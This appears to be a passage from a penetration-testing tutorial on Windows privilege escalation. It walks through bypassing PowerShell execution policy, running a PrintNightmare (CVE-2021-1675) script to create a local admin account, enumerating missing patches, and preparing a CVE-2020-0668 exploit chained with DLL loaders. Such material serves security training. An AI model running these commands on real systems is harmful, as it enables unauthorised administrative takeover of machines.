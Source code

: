 First start by bypassing the execution policy on the target host:
```console
PS C:\zeropio> Set-ExecutionPolicy Bypass -Scope Process 

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now we can import the [PowerShell script](https://github.com/calebstewart/CVE-2021-1675) and use it to add a new local admin user:
```console
PS C:\zeropio> Import-Module .\CVE-2021-1675.ps1
PS C:\zeropio> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

Confirm that we have created the user:
```console
PS C:\zeropio> net user hacker
```

### Enumerating Missing Patches

We can examine the installed updates in several ways:
```console
PS C:\zeropio> systeminfo
PS C:\zeropio> wmic qfe list brief
PS C:\zeropio> Get-Hotfix
```

```console
C:\zeropio> wmic qfe list brief
```

### CVE-2020-0668 Example 

Let's verify our current user's privileges:
```console
C:\zeropio> whoami /priv
```

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit.  Building the solution should create the following files:
- `CVE-2020-0668.exe`{: .filepath}
- `CVE-2020-0668.exe.config`{: .filepath}
- `CVE-2020-0668.pdb`{: .filepath}
- `NtApiDotNet.dll`{: .filepath}
- `NtApiDotNet.xml`{: .filepath}

This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. `icacls` confirms it:
```console
C:\zeropio> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
